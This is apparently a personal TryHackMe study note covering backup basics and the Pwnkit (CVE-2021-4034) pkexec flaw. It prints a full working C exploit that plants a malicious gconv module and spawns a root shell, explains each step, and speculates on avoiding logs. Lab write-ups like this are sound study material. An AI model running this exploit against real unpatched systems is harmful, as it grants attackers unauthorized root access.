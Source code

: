 # TryHackMe: Common Attacks & Pwnkit

author:: Nathan Acks  
date:: 2022-02-03

## Common Attacks

### Public Network Safety

I really do wish that guides like this would stop highlighting VPNs -- their utility is just really unclear for most people anymore!

### Backups

"3, 2, 1" is a good mnemonic for backups:

* THREE or more copies
* TWO or more different storage devices
* ONE or more offsite backups

Though honestly, this is kind of a "minimum viable backup" strategy, since simply using a cloud service to mirror data between two devices would qualify! (Why? Working data counts as a copy...)

## Pwnkit (CVE-2021-4034)

### Exploitation

Quick-n-dirty Pwnkit exploit:

```c
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit's pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>
"
	"#include <stdlib.h>
"
	"#include <unistd.h>

"
	"void gconv() {}
"
	"void gconv_init() {
"
	"	setuid(0); setgid(0);
"
	"	seteuid(0); setegid(0);
"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");
"
	"	exit(0);
"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

The exploit is then as simple as `gcc $FILE -o exploit; ./exploit`. 

Here's what basically happens on execution:

* The exploit creates the path `GCONV_PATH=.` in the current directory and adds an invalid executable file to it.
* The exploit creates a second directory called `pwnkit` and sets up a malicious shared library designed to be loaded by GLib to translate system messages to the made-up character set "PWNKIT".
* The exploit calls `pkexec` with a NULL argument list (this bit is important, since we need the length of the argument list to be 0 -- so, not even to contain the name of `pkexec` itself) *but* with a correctly set up (albeit malicious) environment via `execve()`. Importantly, the first "variable" in the environment is actually the name of the (invalid) executable in the `GCONV_PATH=.` directory.
* Polkit just falls through the loop that it would normally use to walk through the passed-in arguments. This causes what would be pointing to an executable name to instead point to the first environment variable that's passed into `execve()`, which happens to be string `pwnkit`.
* Polkit looks up the malicious executable, finds it in `GCONV_PATH=./pwnkit` (because we set the PATH to that directory), and then tries to replace the executable name with this full path. *Except* that it's still writing to the first element of the environment, which causes `pwnkit` to be replaced by `GCONV_PATH=./pwnkit`.
* Polkit the proceeds to sanitize its environment. When it comes to the invalid SHELL variable this sanitization fails and Polkit throws an error and dies. *But!* Before dying, Polkit tries to *print* the error using a GLib function that dutifully attempts to translate the message into the "PWNKIT" character set. To figure out how to do this, modules are loaded from GCONV_PATH... And we've defined a malicious module to do this that cleans up the exploit files and spawns a root shell (since `pkexec` is SUID root).

A couple of points:

* This version of the exploit cleans up after itself, but does depend on generating a log message. The Qualsys advisory describing Pwnkit notes that "this vulnerability is also exploitable without leaving any traces in the logs, but this is left as an exercise for the interested reader." My guess is that to do this you'd need to reintroduce a different environment variable that `ld.so` normally strips when calling SUID binaries. (At least, I don't immediately see any place where Polkit is printing something that *isn't* a warning before it nukes its own environment, but then I'm not super-familiar with C and am only quickly skimming the `pkexec` source code.) *Or* perhaps you can do something with the permissions of the `GCONV_PATH=./pwnkit` file to trigger an error that would not be logged. (The trick here would be to do something so that `g_find_program_in_path()` resolves `GCONV_PATH=./pwnkit` but `access()` returns an error; it's not obvious to me how to do this though, or even if it *can* be done!)
* It took me a while to figure out why this exploit doesn't occur when `pkexec` is called without any arguments, since it will still fall through the initial argument-parsing loop. The reason this doesn't happen is that `argv[1]` is NULL in this case (the last element of `argv` is always the NULL pointer), so the first string of the environment isn't wrongly loaded *and* and entirely separate code path is triggered before the `GCONV_PATH=./pwnkit` variable would have gotten written into the environment. (It's worth noting that Debian derivatives seem to have removed the `sudo -s` like functionality from `pkexec` entirely, and just display a help message in this case.)

References:

* [arthepsy / CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
* [pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
* [polkit / src / programs / pkexec.c (commit 539bf5dc)](https://gitlab.freedesktop.org/polkit/polkit/-/blob/539bf5dcca489534f42798a4500aca4b1a8ec8d0/src/programs/pkexec.c)
